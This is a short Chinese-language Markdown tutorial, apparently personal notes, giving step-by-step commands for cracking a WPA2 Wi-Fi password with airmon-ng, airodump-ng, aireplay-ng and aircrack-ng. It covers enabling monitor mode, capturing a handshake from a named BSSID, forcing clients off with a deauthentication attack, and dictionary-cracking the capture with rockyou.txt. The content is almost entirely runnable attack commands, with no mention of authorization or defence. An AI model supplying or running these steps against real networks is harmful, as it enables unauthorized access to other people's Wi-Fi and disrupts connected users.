




总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

# 关闭命令：airmon-ng stop wlan0mon
airmon-ng start wlan0

ifconfig
```

- 成功标志



>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```


# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置



 > 2、断开路由器一次

 `路由被断开后会自动启动，启动后连接wifi设备的会自动重新连接wifi`

 ```shell
 aireplay-ng -0 1 -a 78:02:F8:27:F8:BB wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- 成功标志



# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
或则
aircrack-ng -a2 -e MIUI5 -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
```

- -b是指定要破解wifi的BSSID
- -e是指定要破解wifi的名
